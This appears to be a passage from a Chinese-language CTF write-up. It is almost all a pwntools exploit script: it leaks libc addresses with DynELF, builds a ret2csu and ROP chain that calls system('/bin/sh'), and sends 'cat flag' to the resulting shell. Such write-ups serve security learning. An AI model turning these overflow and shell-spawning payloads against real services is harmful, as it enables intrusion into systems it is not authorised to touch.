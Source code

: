 ```python

    leak_addr=leak_content[:4]
    #leak_addr=p.recv()[5:].ljust(8,'\x00')
    #leak_addr=p.recv()[5:]
    log.info("%#x => %s" % (addr, (leak_addr or '').encode('hex')))
    return leak_addr

'''
[DEBUG] Received 0xc bytes:
    00000000  62 79 65 7e  0a a0 c6 a7  f7 ff 7f 0a               │bye~│····│····│
    0000000c
'''
#print "success leak addr",hex(leak_addr)
d=DynELF(leak,elf=elf)
system_addr = d.lookup('system', 'libc')
log.info("system_addr = %#x", system_addr)

#libc_base=leak_addr-libc.symbols['puts']
#print "success get libc_base",hex(libc_base)
#system_addr=libc_base+libc.symbols['system']

ret2__libc_csu_init=0x40075A
read_got=elf.got['read']
read_bin_sh_to_memory=0x60107c  #0x601050
mov_call_addr=0x400740
payload2=72*'c'+p64(ret2__libc_csu_init)+p64(0)+p64(1)+p64(read_got)+p64(8)
payload2+=p64(read_bin_sh_to_memory)+p64(0)+p64(mov_call_addr)+'A'*56+p64(start_addr)
payload2=payload2.ljust(200,'e')
p.send(payload2)
p.send('/bin/sh\x00')
p.recvuntil('bye~')
#gdb.attach(p)
payload3=72*'a'+p64(pop_rdi_ret)+p64(read_bin_sh_to_memory)+p64(system_addr)+p64(0xdeadbeef)
payload3=payload3.ljust(200,'f')
p.sendline(payload3)

sleep(0.2)
p.sendline('ls')
sleep(0.2)
p.sendline('cat flag')
p.interactive()
```

来看一下脚本中重点内容：

> 注释都在代码中
>

```python
def leak(addr):
    #payload=72*'a'+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
    payload=72*'a'+p64(pop_rdi_ret)+p64(addr)+p64(puts_plt)+p64(start_addr)
    payload=payload.ljust(200,'b')
    p.send(payload) #payload泄露任意地址
    p.recvuntil("bye~\n")
    count=0
    up=''
    leak_content=''
    while True: #无限循环读取，防止recv()读取输出不全
        c=p.recv(numb=1,timeout=0.1) #每次读取一个字节，设置超时时间确保没有遗漏
        count+=1
        if up=='\n' and c=="": #上一个字符是回车且读不到其他字符，说明读完了
            leak_content=leak_content[:-1]+'\x00' #最后一个字符置为\x00
            break
```